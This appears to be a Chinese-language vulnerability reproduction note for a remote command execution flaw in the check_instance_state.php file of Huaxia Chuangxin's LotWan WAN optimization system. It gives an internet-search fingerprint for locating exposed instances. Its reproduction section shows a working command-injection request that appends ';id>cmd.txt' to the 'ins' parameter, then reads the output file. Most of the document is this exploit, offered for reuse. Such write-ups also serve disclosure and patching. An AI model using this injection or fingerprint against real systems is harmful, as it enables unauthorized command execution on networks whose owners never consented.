 # 华夏创新 LotWan广域网优化系统 check_instance_state.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## 网络测绘

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面

![image-20220519182517187](images/202205191825272.png)

存在漏洞的文件为

```
/acc/check_instance_state.php?ins=;id>cmd.txt
```

再访问 `/acc/cmd.txt`

![image-20220519182529097](images/202205191825165.png)